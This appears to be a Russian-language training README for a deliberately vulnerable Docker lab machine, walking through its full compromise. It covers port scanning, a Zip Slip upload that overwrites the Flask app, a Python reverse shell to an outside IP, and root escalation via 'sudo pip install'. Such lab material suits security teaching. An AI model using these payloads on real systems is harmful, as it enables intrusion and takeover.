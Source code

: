 # LifeTrainings - занятие от 20.03.2023

### Установка и локальный запуск

Для успешного запуска данной машины требуется установить [docker](https://habr.com/ru/articles/253877/) и выполнить следующую команду из данной директории:
```bash
docker compose up --build -d
```
В случае запуска на локальной машине - некоторые шаги по получению ReverseShell будут другими.
___

### Уязвимая машина Archive (pentest)
___
**Задача:** имея на входе только ip адрес сервиса получить полный доступ (права root) на уязвимой машине

**Решение:**

1. Этап сканирования: 
```bash
masscan -p1-65535 <ip> --rate=1000
```
<details>
    <summary>Справка по ключам</summary>
    -p1-65535 - сканировать порты TCP от 1 до 65535 
    <ip> - айпи адрес уязвимой машины  
    --rate=1000 - количество пакетов посылаемое в секунду. При увеличении рейта увеличиться и скорость сканирования, но нектороые данные могут потеряться, т.к. сетевая карта/ширина канала не успеет/не позволит их обработать.
</details>
После сканирования известно о 3 открытых портах:
22 tcp - ssh хоста
4444 tcp - ssh проброшенный с контейнера
8080 tcp - web сервис

2. Изучение сайта на порту 8080:
 - Функционал сайта позволяет загружать zip архивы, при этом имеется проверка на валидность zip.
 - Можно просканировать директории через gobuster с каким либо словарем (на сервере под учеткой life доступные словари лежит в директории /wordlist), например как
 ```bash
gobuster -u http://<ip>:8080 -w /wordlist/dirb/common.txt -s "200,204,301,302,307,401,403,500"
```
<details>
    <summary>Справка по ключам</summary>
    Ключ -u указывает на url для сканирования
    Ключ -w указывает на словарь, по которому будут перебираться возможные пути и директории на сайте 
    Ключ -s перечисляет на какие status code нужно смотреть. Тут необходимо добавить так же 500 ошибку, что бы увидеть возможные проблемные точки сайта.
</details>
После фаззинга находим два uri для данного сайта:
    - /console - по этому роуту откроется Flask Debug Console. Можем определить что сайт написан на Python с использованием фреймворка Flask. Позволяет выполнить произвольный код, но необходимо знать PIN-код.
    - /list вызывает ошибку в Debug Console. Позволяет определить что включен DEBUG режим, имеется возможность исполнение произвольного кода (необходимо знать PIN), есть раскрытие путей (можно определить пути ```/app/upload/``` и ```/app/main.py```).

3. Изучив все доступные функции можно сделать вывод, что для успешной аткаки на данный сайт нужно найти и проэксплуатировать уязвимость связанную с загрузкой архивов.
Запрос в гугл по типу ***web zip vulnerabilities*** одной из первых [ссылок](https://security.snyk.io/research/zip-slip-vulnerability) ведет на описание атаки **ZIP Slip**.
Данная атака позволяет перезаписать произвольный файл в системе (если мы знаем его путь).
Исходя из предыдущих пунктов нам известно, что:
- файлы загружаются в директорию ```/app/upload```
- доступный нам для перезаписи файл - ```main.py``` по в директории ```/app/main.py```

То есть, нам необходимо создать файл с именем ```../main.py``` и положить туда [ReverseShell](https://telegra.ph/Reverse-Shell-CHto-ehto-i-zachem-nuzhno-07-22).

4. Для генерации ReverseShell'a можно воспользоваться сервисом [revshells.com](https://www.revshells.com). Подставляем в ip адрес нашего внешнего сервера (с которого запускали сканы), в качестве порта указываем любой порт в диапазоне от 1000 до 65535 (все порты ниже 1000 требуют для запуска root прав), выбираем тип ***Python3 #2*** и копируем код в любой удобный нам редактор.

Далее необходимо привести код в примерно следующий вид:
```python
import socket,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("1.1.1.1",1337));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; 
pty.spawn("sh")
```

Где вместо ```1.1.1.1``` и ```1337``` будут подставлены значения вашего ip и порта.
Теперь сохраняем этот код с любым именем на локальной системе.

5. Для генерации эксплоита можно воспользоваться готовым кодом, например взять [этот](https://github.com/cesarsotovalero/zip-slip-exploit-example.git).
- Клонируем репозиторий на локальную машину (должен быть установлен git):
```git clone https://github.com/cesarsotovalero/zip-slip-exploit-example.git```
- Заходим в директорию zip-slip-exploit-example:
```cd zip-slip-exploit-example```
- Запускаем файл evilarc.py (требуется установленный python2.7) со следующими параметрами:
```python2.7 evilarc.py --output-file team1.zip -d 1 -o unix main.py```
<details>
    <summary>Справка по ключам</summary>
    --output-file имя создаваемого архива, можно указать любое
    -d количество каталогов для обхода (т.е. количество добавляемых ../)
    -o unix используемая платформа (win/unix)
    main.py имя нашего файла с reverse-shell'ом
</details>
6. На сервере (с которого производили сканирование) запускаем listener, который будет ждать приема от нашего ReverseShell. Например так:
```nc -lvp 1337```
<details>
    <summary>Справка по ключам</summary>
    ключ -l позволяет "слушать входящие соединения"
    ключ -v включает verbose режим, что позволяет получать более детальную информацию
    ключ -p указывает на необходимость "слушать" на порту 1337
</details>

На сервере так же установлен pwncat-cs и pwncat, для большего удобства. Так же можно все действия проводить через meterpreter.
7. Загружаем архив созданный на шаге 5 на сайт и жмем submit. Если все действия были проделаны верно, то на стороне listener после строки ```Listening on 0.0.0.0 1337``` должны появиться строки "Connection received on <address>" и "$", что означает что мы успешно получили reverse shell. Проверить можно вбив команду ```id``` и если видим ответ в виде ```uid=1000(appserver) gid=1000(appserver) groups=1000(appserver),27(sudo)``` значит все сделано верно.
8. Т.к. на данный момент мы сидим на сервере под обычной УЗ, а хочется подняться до уровня root (максимально привелегированная УЗ в системах *nix), то необходимо провести анализ на возможность локального повышения привелегий (Local Privilege Escalation или LPE):
- в ответе команды ```id``` можно заметить, что пользователь состоит сразу в нескольких группах - ```appserver``` и ```sudo```. То есть, если бы знали пароль от его УЗ, то могли бы выполнять любые действия от имени root-пользователя, но он нам не известен. 
- В некоторых случаях администраторы *nix систем оставляют возможность пользователям выполнять определенные команды от имени root без ввода пароля, с помощью редактирования файла [sudoers](https://ruvds.com/ru/helpcenter/znakomstvo-s-sudo/sudo-nastroika-faila-etc-sudoers/). Проверить доступно ли нам что-то из этого функционала можно командой ```sudo -l```
- В нашем случае мы можем выполнить команду ```sudo /usr/bin/pip install *``` без ввода пароля, что позволит нам запустить ее от имени пользователя root.
- Для поиска уязвимостей связанных с любыми бинарями в *nix системах есть прекрасный [сайт](https://gtfobins.github.io), где собранны все уловки в одном месте. Так же на сервере был установлен локальный пакет **gtfo**, позволяющий искать в терминале, например как ```gtfo -b pip```
- В нашем случае повышение привелегий сводиться к простому набору нескольких команд указанных в разделе **shell**:
```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
- Проверяем удачность запусука через команду ```id``` и видим, что мы являемся root'ом в системе - то есть машина полностью под нашим контролем.

